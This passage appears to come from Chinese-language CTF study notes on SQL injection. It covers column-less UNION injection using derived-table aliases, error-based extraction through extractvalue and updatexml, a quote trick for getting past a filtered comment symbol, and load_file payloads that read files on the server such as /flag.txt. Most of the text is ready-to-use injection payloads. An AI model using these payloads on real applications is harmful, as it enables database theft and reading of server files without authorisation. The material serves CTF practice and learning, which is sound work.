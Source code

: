 

### 7、无列名注入

>   构成注入可使用 
>
>   ```
>   1' 注入语句 '1
>   ```
>
>   ==注释符号被过滤代替==
>
>   ```nginx
>   注释符#用,'3代替，数字随便
>   这里的'相当于闭合了输入语句里参数的右引号，变成'3'字符串,此时整个语句没有注释符）
>   ```
>
>   ```sql
>   无法获取列名就给列名取别名的方式进行注入
>   union select 1，(select group_concat(b) from (select 1,2,3 as b union select * from users) a)
>   
>   
>   `b别名为users表第二列别名`
>   `select 1,2,3这样查询数据库中会显示三列，列名也为1,2,3，`
>   (select 1,2,3 union select * from users) a
>   `这个查询就会以列名1,2,3去查询users中所有内容
>   select group_concat(b)
>   `就是查询users表第二列。那为什么是1,2,3没有4,5,6或以上呢。因为users表就只有三列，多输入列数就报错了`
>   `可以把group_concat(b)换成group_concat(1),这样就会显示有多少列`
>   最后派生的表需要取别名，要不然会报这个错`Every derived table must have its own alias`
>   
>   -- 注入到最后发现有干扰信息可以使用正则匹配相关信息
>   f"&&(extractvalue(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#))))#
>   
>   ```
>
>   



### 8、利用sql读取文件

```nginx
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

```



### 9、mysql中ascii位偏移

>   **结论：**
>
>   -   比较两个字符串的大小与字符串的长度是没有关系，给定两个字符串，会各取两个字符串的首字符ascii码来比较，**不等式成立返回1，不成立返回0，也就是只会比较一次，也就是首字符进行比较**
